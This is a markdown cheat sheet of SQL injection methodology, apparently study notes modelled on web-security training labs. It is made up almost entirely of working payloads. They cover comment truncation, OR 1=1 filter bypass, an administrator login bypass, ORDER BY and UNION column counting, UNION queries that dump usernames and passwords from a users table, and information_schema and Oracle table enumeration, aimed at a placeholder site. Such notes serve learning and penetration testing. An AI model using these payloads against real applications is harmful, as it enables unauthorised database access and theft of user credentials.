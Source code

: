 # Methodology - SQL Injection

##### Retrieving hidden data #1
```
Original query:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1 

https://insecure-website.com/products?category=Gifts'--

This results in the SQL query:

SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1 
```

##### Retrieving hidden data #2
```
Original query:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1 

https://insecure-website.com/products?category=Gifts'+OR+1=1--

This results in the SQL query:

SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1 
```

##### Subverting application logic
```
SELECT * FROM users WHERE username = $USER AND password = $PASS

If user input is administrator'-- 

SELECT * FROM users WHERE username = 'administrator'--' AND password = '' 
```

##### Determining the number of columns required in an SQL injection UNION attack #1
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

When the specified column index exceeds the number of actual columns in the result set:

The ORDER BY position number 3 is out of range of the number of items in the select list.
```
##### Determining the number of columns required in an SQL injection UNION attack #2
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc. 
```
##### Finding columns with a useful data type in an SQL injection UNION attack
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'-- 
```
##### Using an SQL injection UNION attack to retrieve interesting data
```
 ' UNION SELECT username, password FROM users-- 
```

##### String concatenation
```
Oracle 	   'foo'||'bar'
Microsoft  'foo'+'bar'
PostgreSQL 'foo'||'bar'
MySQL 	   'foo' 'bar' [Note the space between the two strings]
           CONCAT('foo','bar')
```
##### Querying the database type and version
```
Database type 	                          Query
Microsoft, MySQL 	                 SELECT @@version
Oracle 	                          SELECT * FROM v$version
PostgreSQL 	                         SELECT version() 
```

##### Listing the contents of the database (Non-Oracle)
```
' UNION SELECT NULL,table_name from information_schema.tables--
' UNION SELECT NULL,column_name from information_schema.columns where table_name='users'--
' UNION SELECT username,password from users--
```

##### Listing the contents of the database (Oracle)
```
 You can list tables by querying all_tables:

SELECT * FROM all_tables

And you can list columns by querying all_tab_columns:

SELECT * FROM all_tab_columns WHERE table_name = 'USERS' 
```
